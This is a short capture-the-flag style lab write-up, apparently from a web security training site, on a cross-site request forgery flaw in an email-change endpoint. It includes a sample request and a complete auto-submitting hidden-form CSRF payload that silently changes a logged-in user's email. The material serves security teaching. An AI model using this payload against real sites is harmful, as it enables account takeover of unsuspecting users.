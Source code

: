 # CSRF vulnerability with no defenses

This lab's email change functionality is vulnerable to CSRF.

The feature works by sending a POST request to the `/my-account/change-email` endpoint without a CSRF token.

```http
POST /my-account/change-email HTTP/1.1
Cookie: session=rUQaRA2VvHlC8irD8jXmNIcsqxpzgUY2

email=foo@bar.com
```

The following CSRF payload delievered to the user will change their email to `wiener@peter.com`:

```html
<html>
  <body>
    <h1>Hello, user!</h1>

    <iframe name="csrf-iframe" style="display: none;"></iframe>

    <form
      id="csrf-form"
      method="POST"
      action="https://0a7f003a03062960c0e92ff5002f0046.web-security-academy.net/my-account/change-email"
      target="csrf-iframe"
    >
      <input type="hidden" name="email" value="wiener@peter.com" />
      <input type="submit" value="Submit request" />
    </form>

    <script>
      document.getElementById('csrf-form').submit()
    </script>
  </body>
</html>
```
